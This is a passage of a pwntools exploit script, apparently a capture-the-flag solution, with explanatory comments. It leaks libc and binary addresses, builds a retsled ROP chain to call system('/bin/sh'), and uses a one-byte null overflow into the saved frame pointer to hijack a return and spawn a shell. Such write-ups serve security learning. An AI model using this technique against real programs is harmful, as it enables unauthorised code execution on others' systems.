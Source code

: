 ```
puts_libc = int(p.recvline().rstrip(), 16)
libc.address = puts_libc - libc.symbols['puts']

# yes i want to learn an interesting fact about a number
p.sendlineafter("(y/n)\n", "y")
# we enter zero (or non number) to trigger a call to fgets()
p.sendline("0")

# fgets lets us store 0x538 bytes of data, inclusive of null terminator
# we want to write rop gadgets here, to keep them on the stack so we can
# jump to them later as we'll see
payload = b'A' # padding to get a 4-byte stack alignment
# we won't really be in control of which stack address we jump to, so
# we just use a big retsled followed with a payload to run system('/bin/sh')
payload += p32(libc.address+ret_gadget)*(0x528//4) # retsled
payload += p32(libc.symbols['system'])
payload += p32(0xdeadbeef)
payload += p32(next(libc.search(b'/bin/sh')))
p.sendline(payload)

# yes we have a least favourite number...
p.sendlineafter("(y/n)\n", "y")
# read in the least favourite number which is the address of the get_number function
p.recvuntil(": ")
get_number_addr = int(p.recvline().rstrip(), 16)
elf.address = get_number_addr - elf.symbols['get_number']
# a dummy number
p.sendline("0")

'''
at this point we are in the least_fav function and things get interesting:
push    eax {var_e4}
push    0xd1
lea     eax, [ebp-0xd0 {var_d4}]
push    eax {var_d4} {var_ec}
call    fgets

the buffer we are allowed to write to is at ebp-0xd0 but... 0xd1 bytes are read in,
inclusive of the null byte.
the preserved ebx value on the stack is at ebp-0x4, so this gets overwritten
but the preserved ebp value (which is fav() ebp), is stored at ebp-0x00
we clearly see that there is a null byte overflow into the preserved ebp value

what this will do for us, is it will set the least significant byte of preserved ebp
value, to 0x00. this has the effect of growing fav's ebp value "higher".

remember how fav previously had an 0x539 byte buffer?
by setting the lowest byte of fav's ebp higher, it will now be within the buffer

fav's return address to return to main would be kept at fav_ebp+0x4, however since
we changed fav's ebp, fav_ebp+0x4 now actually points to somewhere within the buffer

this means that fav's attempt to return to main will actually set off our rop chain
(starting with our RETsled), and popping our shell
'''

# firstly at ebp-0x4 there is a preserved ebx value which just contains the GOT address
# we preserve this to not mess up any calls to libc
payload = flat({0xcc : p32(elf.symbols['_GLOBAL_OFFSET_TABLE_'])})
p.sendafter("not?\n", payload)

# simply decline the program's next 2 questions
p.sendline()
```